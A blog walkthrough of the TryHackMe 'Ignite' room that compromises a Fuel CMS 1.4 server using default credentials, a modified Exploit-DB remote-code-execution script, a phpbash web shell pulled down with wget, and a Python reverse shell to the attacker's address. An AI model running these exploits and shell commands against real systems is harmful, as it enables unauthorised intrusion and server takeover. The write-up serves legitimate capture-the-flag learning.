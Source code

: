 ```yaml
---
layout: post
title:  "TryHackMe 'Ignite' Room Walkthrough"
author: Michael
categories: [ walkthrough, writeups, tryhackme ]
image: assets/img/ignite1.png
featured: false
hidden: true
---
```


### RECON

The <a href="https://tryhackme.com/room/ignite">description</a> of this room indicates that we're dealing with a web server and after a full Nmap port scan, that looks like all it is. If we navigate to the respective IP address that the room gave us when the machine was deployed, you'll be welcomed with a "Welcome to Fuel CMS" landing page. This page indicates that the CMS is version 1.4 as well as some basics. It's also important to note that the default credentials for the application of `admin:admin` are listed here as well. We'll kick off a "dirb" scan of the web server but the first thing I always check for here is a robots.txt file. The robots file on this page has a lone `/fuel` entry. This URL was also noted on the main landing page. Navigating to this page yields a login.
<p><img src="/assets/img/ignite3.png"></p>

### LIGHTING THE FIRE

Whenever you're dealing with a login for something like this, remember to always keep it simple and try the low hanging fruit first. You never know when it might save you a lot of time. In this case, that was exactly what happened! The default credentials of `admin:admin` allowed me to login to the CMS. I did some poking around the app but wasn't finding any particular ways to get code execution out of the gate, so I took to the Google.

<p><img src="/assets/img/ignite2.png"></p>

It looks here like we have a code execution flaw and this version of the CMS is vulnerable to it. I pulled a copy of the exploit to my machine from <a href="https://www.exploit-db.com/exploits/47138">here</a> and then opened it up in my text editor because it's going to need some changing for it to work correctly. A portion of the code originally reads like this:

```
url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)
  ```
However if you ran this python script as is, it would not work. There are two things I personally changed. The first thing you need to do is change the url at the top. It simply needs to read http://tryhackmeIP with the IP address the room deployed the machine to. The second thing I chose to do was comment out the proxy line with a pound sign and then remove `, proxies=proxy` from the following line. This would be find if you wanted to funnel this exploit through burp, but it's not necessary. Your final code will look something closer to this:

```
url = "http://10.0.0.117"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	#proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url)
  ```
Now that our code is edited, we can run it with Python. When you run it, you'll get a "cmd:" prompt. Simply type a command in there, and you should get data back like the image below. The script seems a bit broken and outputs some PHP errors, but nonetheless, we're executing code on the server.
<p><img src="/assets/img/ignite4.png"></p>
<blockquote>We ran the `whoami` command in the prompt and it output the web server user as expected: `www-data`.</blockquote>

Now, we have RCE but it's really clunky and I don't have the full shell experience, I want to elevate this RCE to a fully interactive shell experience. My personal favorite for something like this is <a href="https://github.com/Arrexel/phpbash/blob/master/phpbash.php">phpbash</a>. PHPbash allows you to run a semi-interactive shell experience right in your browser window on the web server. At this point we can print out the user flag but I am going to get to that later instead. I have the php file downloaded on my computer, I just need to transfer it to the victim machine. For this I will use both Python and wget.

First I want to open my terminal and navigate to the directory where the phpbash.php file is stored. Then I want to type `python3 -m http.server 80`. This will basically stand up a web server in whatever folder I'm in and allow others to download files out of it. Then I run `ifconfig` and I find my IP address on the tryhackme VPN. If you're on mac or linux this is usually the interface looking like `tun0` or `utun0`. Your IP address will definitely start with a 10 here. Once you have that IP address, go to your exploit where you can input commands and use:`wget http://YOURIPADDRESS/phpbash.php`. This will download phpbash into the current web server directory. You should see the HTTP requests on your terminal where you ran the http.server command. At this point you can now navigate to http://igniteIPaddress/phpbash.php and you'll have a semi-interactive, beautiful shell right there in your web browser.
<p><img src="/assets/img/ignite5.png"></p>
<blockquote>This is a much cleaner and easier way to grab user in my opinion</blockquote>

### ELEVATING OURSELVES

Typically when I get user access the first thing I want to run is `sudo -l`. There's always a chance that this can print out a list of things you're authorized to run as an elevated user. Unfortunately in this case, phpbash isn't a real terminal and it will error out if you try a lot of various privilege escalation tasks here. So, we need to get ourselves a real reverse shell. You can do this with python in phpbash. In your terminal, start a netcat listener with the command `nc -lvn 7777`. Then in phpbash, paste the following reverse shell command:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOURIPADDRESS",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`
```

After you run that in phpbash, you should see a new message on your netcat listener and have a dollar sign. If you type `whoami` on it, you will see you now have a reverse shell as "www-data". However this shell still won't do what we want it to, so we need to get full tty for an interactive shell. First, enter this python command: `python -c 'import pty; pty.spawn("/bin/bash")'`.Then, press CTRL+Z to put the shell in the background. Next, type this command in the same window: `stty raw -echo;fg`. This will bring your shell back to the foreground with full interactive experience.
<p><img src="/assets/img/ignite6.png"></p>

NOW... I spent a lot of time at this point enumerating the machine. I pulled in scripts to examine the system, I explored kernel updates, the works. However, I will not spend substantial time on that because the solution here is much easier. Back on the main page, where the default creds were listed, there was another important piece of information. In step 2, it lists a database configuration file that you need to input a username and password into. If we navigate to that file, we will see this:
<p><img src="/assets/img/ignite7.png"></p>

That's right, and if we take that in our terminal and give it a shot:
<p><img src="/assets/img/ignite8.png"></p>

I hope this walkthrough was helpful and feel free to show me how you did it different or send any recommendations to me on Twitter!
